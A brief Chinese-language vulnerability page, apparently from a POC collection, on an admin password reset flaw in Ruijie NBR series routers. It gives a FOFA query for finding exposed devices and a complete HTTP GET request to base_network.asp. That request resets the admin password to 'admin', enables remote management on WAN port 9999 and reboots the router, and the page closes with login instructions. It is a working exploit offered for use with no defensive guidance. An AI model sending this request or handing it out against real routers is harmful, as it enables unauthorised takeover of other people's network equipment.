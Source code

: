 ## 锐捷NBR系列路由器存在管理员密码重置漏洞

锐捷网络是一家拥有包括交换机、路由器、软件、安全防火墙、无线产品、存储等全系列的网络设备产品线及解决方案的专业化网络厂商。

锐捷NBR系列多款路由器`base_network.asp`存在管理员密码重置漏洞，攻击者通过漏洞重置密码登录后台

## fofa

```
body="上层网络出现异常，请检查外网线路或联系ISP运营商协助排查"
```

## poc

```
GET /base_network.asp?isbase64=1&reboot=1&shortset=1&time_type=auto&exec_service=ntpc-restart&http_lanport=80&remote_management=1&http_wanport=9999&http_username=admin&http_gname_en=0&http_passwd=admin&_= HTTP/1.1
Host: 
Accept: application/json, text/javascript, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: wys_userid=; userid=admin; gw_userid=admin,gw_passwd=
Connection: close
```

重置密码为admin

使用admin/admin登录系统